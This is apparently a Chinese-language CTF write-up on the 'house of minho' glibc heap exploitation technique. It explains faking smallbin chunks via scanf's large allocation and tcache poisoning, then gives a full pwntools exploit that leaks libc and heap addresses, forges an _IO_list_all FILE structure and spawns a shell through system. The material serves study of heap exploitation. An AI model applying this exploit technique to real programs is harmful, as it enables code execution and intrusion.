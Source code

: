 ```yaml
---
title: housofminho
date: 2024-08-01
categories: beyond-ctf
tag: houseof
---
```

# 前言
`houseofminho`最早是在宁波赛上遇到的，没想到这玩意给了我迎头痛击。当时老觉得这些过于复杂的堆利用有点钻牛角尖了，实战意义不大，但是现在想想，还是得认真学这些。

这种复杂的堆利用如果一直畏难的话，那我就一直不会有长进，但是啃下来之后却也觉得还能接受了。
# 题目详情
通过出题人给的源码我们可以发现，我们至始至终最多只能操控一个堆块，并且大小只能是0x40或0x80。尽管题目在0x40的堆块读入时给了0x80的大溢出，但是我们的利用还是有很大麻烦。

有一个很重要而且有趣的点是这道题对于scanf的利用

**scanf在收到大量字节输入时会调用malloc来创建缓冲区**
**而这道题看似scanf只有一个读入数字的处理？怎么让他收到大量字节输入呢**
**答案是在原来与题目交互时输入的1,2,3前面加上很多个0，这样就会让scanf有一个malloc大量字节后再free的操作**
**以上有一个前提，就是没有setbuf(stdin,0)**

初步利用思路
1. 在smallbin内放入多个0x90大小的堆块
2. 通过scanf的大malloc来触发将smallbin放入tcachebin的机制，从而利用溢出改fd指针获得任意地址写

那么下一步就是如何获得smallbin了
1. 首先smallbin只需要有一个，剩下我们可以通过bk指针在可控的堆上通过布局伪造，即使显示被corrupted，但是将它们放入tcachebin的过程是沿着bk进行且没有检查，所以这样是可以的
![smallbin](./minho/smallbin.png)
2. 那么smallbin从哪里来呢，答案是从unsortedbin
3. 我们可以先将堆块size改大，放入unsortedbin，再改小size(由于unsortedbin本身就是什么size大小的堆块都有，在此处自然没有对其size的检查)
4. 通过scanf的大堆块申请之后，被我们改小size的unsortedbin就会落入smallbin

当然上述都只是相对简化的，实际这题中还有两个点
1.  1. 利用unsortedbin伪造smallbin的过程中，在改小了size的unsortedbin下方，我们还需要伪造glibc的保护块来防止出错，而这样我们的可控空间就不够大了。
   ![heap1](./minho/heap1.png)
   图中很明显，我们可控的部分是绿色堆块往下0x80的大小，以及蓝色堆块往下数0x80的大小，但是我们必须伪造0x90大小的堆块！而且在0x90大小的堆块下方还需伪造两个哨兵块来防止malloc报错
    2. 所以在这里还有一个unlink手法，将unsortedbin向上合并0x30的大小以提高伪造利用率。
    3. 在图中可以看到绿色堆块中的0x31大小的堆块就是准备用来合并的，这样我们利用0x50大小堆块的uaf范围就可以从(0x80-0x48)变成(0x80-0x18)，大大增加了伪造的可能性
2.  在程序最开始还利用scanf的大堆块写往图中最下方的橙色堆块后方写了一个\x33，也就是3的ascii码。这样的布局可以防止蓝色堆块被free成unsortedbin之后的合并检查出错，因为\x33的prev_in_use位为1，被启用。

我这里也只是简单写一下思路，这题中的很多细节我都讲的比较粗略或者不够完整。
更完整详细的解题思路可以去看看[看雪Csome的记录](https://bbs.kanxue.com/thread-279588.htm)

这是完整exp
```
from pwn import *
context(
    terminal = ['tmux','splitw','-h'],
    os = "linux",
    arch = "amd64",
    # arch = "i386",
    log_level="info",
)
def debug(io):
    gdb.attach(io,
'''
# b *$rebase(0x121B)
b 25
'''
)
io = process("./bh")

def add_small(content):
    log.info(f'add_small {content}')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'1')
    io.sendlineafter(b'Size [1=small / 2=big]: ',b'1')
    io.sendafter(b'Data: ',content)
def add_big(content):
    log.info(f'add_big {content}')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'1')
    io.sendlineafter(b'Size [1=small / 2=big]: ',b'2')
    io.sendafter(b'Data: ',content)
def show():
    log.info('show')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'2')
def show2(len):
    log.info(f'show {hex(len-1)}*0 + 2')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'0'*(len-1) + b'2')
def delete():
    log.info(f'delete')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'3')
def delete3(len):
    log.info(f'delete {hex(len-1)}*0 + 3')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'0'*(len-1) + b'3')

debug(io)
delete3(0xd59)
add_small(b'x'*0x48 + p64(0xd11))
show2(0x1000)
delete()
add_small(b'x'*0x50)
show()
io.recvuntil(b'x'*0x50)
libc_base = u64(io.recv(0x6).ljust(8,b'\x00')) - 0x219ce0
log.success(hex(libc_base))

delete()
add_small(b'x'*0x48 + p64(0xcf1))
delete()
add_big(b'x')
delete()
add_small(b'x'*0x50)
show()
io.recvuntil(b'x'*0x50)
heap_base = (u64(io.recv(0x5).ljust(8,b'\x00')) - 0x1)*0x1000
log.success(hex(heap_base))
delete()
add_small(b"a" * 0x10 + p64(0) + p64(0x31) + p64(heap_base + 0x12c0) * 2 + p64(0x0) * 2 + p64(0x30) + p64(0xd00))
delete()
add_big(b"a" * 0x50 + p64(0x90) + p64(0x10) + p64(0x00) + p64(0x11))
delete()
add_small(flat({
    0x10:0,
    0x18:0x91,
    0x20:heap_base + 0x1380,
    0x28:libc_base + 0x219ce0,
},filler=b'\x00'))
show2(0xfff)
delete()

add_small(flat({
    0x10 : {
            0x00: 0,
            0x08: 0x91,
            0x10: heap_base + 0x12c0,
            0x18: heap_base + 0x12c0 + 0x30,

            0x30: 0,
            0x38: 0x91,
            0x40: heap_base + 0x12c0,
            0x48: heap_base + 0x12c0 + 0x50,
 
            0x50: 0,
            0x58: 0x91,
            0x60: heap_base + 0x12c0 + 0x30,
            0x68: libc_base + 0x219d60
        }
    }
, filler=b"\x00"))
delete()

add_big(b'x')
delete()
_IO_list_all = libc_base + 0x21a680
system = 0x50d60 + libc_base
 
fake_file = heap_base + 0x12e0
add_small(b"a"*0x10+p64(0) + p64(0x71) + p64((heap_base + 0x12d0 + 0x70)^((heap_base + 0x1000)>>12)))
delete()
add_big(flat({
    0x0+0x10: b"  sh;",
    0x28+0x10: system,
    0x68: 0x71,
    0x70: _IO_list_all ^((heap_base + 0x1000)>>12),
}, filler=b"\x00"))
delete()
add_big(flat({
    0xa0-0x60: fake_file-0x10,
    0xd0-0x60: fake_file+0x28-0x68,
    0xD8-0x60: libc_base + 0x2160C0, # jumptable
}, filler=b"\x00"))
delete()
add_big(p64(fake_file))

io.interactive()
```
